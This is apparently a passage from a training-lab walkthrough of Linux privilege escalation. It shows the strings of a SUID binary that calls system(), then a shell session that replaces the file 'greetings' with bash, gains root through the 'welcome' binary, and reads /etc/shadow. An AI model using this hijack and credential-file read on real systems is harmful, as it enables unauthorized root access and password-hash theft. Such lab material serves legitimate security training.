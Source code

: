 ```
_edata
system@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

```
student@attackdefense:~$ rm greetings
rm: remove write-protected regular file 'greetings'? y
student@attackdefense:~$ cp /bin/bash greetings
student@attackdefense:~$ ls -al
total 1116
drwxr-xr-x 1 student student    4096 Nov  3 13:52 .
drwxr-xr-x 1 root    root       4096 Sep 22  2018 ..
-rw-r--r-- 1 root    root         88 Sep 22  2018 .bashrc
-rwxr-xr-x 1 student student 1113504 Nov  3 13:52 greetings
-rwsr-xr-x 1 root    root       8344 Sep 22  2018 welcome
student@attackdefense:~$ ./welcome
root@attackdefense:~# whoami
root
root@attackdefense:~# cat /etc/shadow
root:*:17764:0:99999:7:::
daemon:*:17764:0:99999:7:::
bin:*:17764:0:99999:7:::
sys:*:17764:0:99999:7:::
sync:*:17764:0:99999:7:::
games:*:17764:0:99999:7:::
man:*:17764:0:99999:7:::
```